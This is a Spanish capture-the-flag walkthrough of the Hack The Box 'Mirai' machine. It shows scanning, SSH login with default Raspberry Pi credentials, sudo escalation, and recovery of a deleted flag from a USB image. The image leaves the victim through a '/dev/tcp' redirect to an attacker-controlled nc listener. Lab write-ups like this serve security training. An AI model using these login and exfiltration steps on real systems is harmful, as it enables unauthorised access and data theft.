# Mirai

```bash
sudo nmap -p- --open -T5 -sCV --min-rate 5000 -n -Pn 10.129.3.201 -oN scanNmap.txt
```



- 22 -> openssh versión baja -> inferior a 7.7 posible enumeración de usuarios
Launchpad -> Jessie

- 53 -> dnsmasq 2.76



- 80 -> html en blanco
```bash
whatweb http://10.129.3.201
```

http://10.129.3.201 [404 Not Found] Country[RESERVED][ZZ], HTTPServer[lighttpd/1.4.35], IP[10.129.3.201], UncommonHeaders[x-pi-hole], lighttpd[1.4.35]
lighttpd -> servidor web open source -> **POSIBLE VECTOR**

- 1552 y 32469 -> Platinum UPnP


**POSIBLE VECTOR**

- 32469 -> Plex Media Server httpd



- Conseguimos acceder por el puerto 32400



- Buscamos credenciales por defecto pero no parece haber

- Si escaneamos con gobuster el puerto 80 vemos un panel de admin accesible
```bash
gobuster dir -u http://10.129.3.201:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x html,php,txt
```





- Vemos un login de pi-hole



Si buscamos default credentials en goolge nos dice que hay unas credenciales por defecto via **SSH**



pi:raspberry

- Nos conectamos via ssh
```bash
ssh pi@10.129.3.201
```

raspberry
pi

## Escalada

- Vemos 3 usuarios con bash -> pi, plex y root
- Estamos en la máquina victima 10.129.3.201

```bash
sudo -l
```



```bash
sudo su
```

root

- La flag no está en /root/root.txt, se nos dice que está en un **USB stick**

- Buscando veo que la forma de enumerar dispositivos conectados es usando el comando
```bash
lsblk
```



Al entrar en /media/usbstick dice que han borrado el contenido del USB

- Intentaremos recuperar el contenido borrado
1. Separamos la relación de la carpeta en la que se deposita el contenido del usb /media/usbstick de forma segura del **sbd** del stick (es como un extraer de forma segura)
```bash
umount /media/usbstick
```

2. Creamos una copia del usb en un archivo (imagen .img)
```bash
dd if=/dev/sdb of=/tmp/usb.img
```



3. Lo pasamos a nuestro kali por nc
En K ->
```bash
nc -nlvp 443 > usb.img
```

En MV ->
```bash
cat usb.img > /dev/tcp/10.10.14.96/443
```

Con md5sum comparamos hashes de ambos archivos
4. Usamos **extundelete**
```bash
extundelete usb.img --restore-all
```

Dentro de *RECOVERED_FILES* está *root.txt*
